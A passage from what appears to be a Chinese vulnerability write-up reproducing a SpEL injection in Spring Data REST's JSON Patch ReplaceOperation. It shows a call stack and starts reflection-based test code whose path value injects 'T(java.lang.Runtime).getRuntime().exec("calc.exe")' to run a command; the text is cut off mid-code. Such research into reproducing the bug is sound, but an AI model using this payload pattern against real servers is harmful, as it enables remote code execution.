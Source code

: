 ```
resolveArgument(MethodParameter, ModelAndViewContainer, NativeWebRequest, WebDataBinderFactory):121, HandlerMethodArgumentResolverComposite (org.springframework.web.method.support)
getMethodArgumentValues(NativeWebRequest, ModelAndViewContainer, Object[]):158, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest(NativeWebRequest, ModelAndViewContainer, Object[]):128, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle(ServletWebRequest, ModelAndViewContainer, Object[]):97, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod(HttpServletRequest, HttpServletResponse, HandlerMethod):827, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal(HttpServletRequest, HttpServletResponse, HandlerMethod):738, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle(HttpServletRequest, HttpServletResponse, Object):85, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch(HttpServletRequest, HttpServletResponse):967, DispatcherServlet (org.springframework.web.servlet)
doService(HttpServletRequest, HttpServletResponse):901, DispatcherServlet (org.springframework.web.servlet)
processRequest(HttpServletRequest, HttpServletResponse):970, FrameworkServlet (org.springframework.web.servlet)
service(HttpServletRequest, HttpServletResponse):843, FrameworkServlet (org.springframework.web.servlet)
//servlet的处理逻辑
    
//以下都是web容器的处理逻辑
service(ServletRequest, ServletResponse):742, HttpServlet (javax.servlet.http)
//..省略大量内容
run():61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run():745, Thread (java.lang)
```



通过上面的调用栈，发现问题的关键在于org.springframework.data.rest.webmvc.json.patch.ReplaceOperation#perform方法的后续逻辑。所以我尝试自己编写本地测试代码来进行漏洞复现，以便于理清漏洞触发流程。

### 本地测试一



由于org.springframework.data.rest.webmvc.json.patch.ReplaceOperation#perform方法的是protected的，我们的测试代码在com.example.accessingdatarest这个包中，无权限访问它。首先想到的方法就是通过反射方式来失效调用，代码如下。

```
package com.example.accessingdatarest;

import org.springframework.data.rest.webmvc.json.patch.ReplaceOperation;
import java.lang.reflect.Method;
import java.util.Arrays;

public class test {
    public static void main(String[] args) throws Exception {
        //path参数中后面的“/11”不能少，其底层方法使用“/”来做字符串分割的
        ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/11","xxx");

        //getMethods不能获取到我们想要的perform方法，因为getMethods只返回公共方法
        Method[] methods = ReplaceOperation.class.getMethods();
        System.out.println(Arrays.asList(methods).toString());
        for (Method method: methods){
            System.out.println(method.getName());
        }

        //同上，只返回公共方法！
        //Method method = ReplaceOperation.class.getMethod("perform", Object.class, Class.class);

```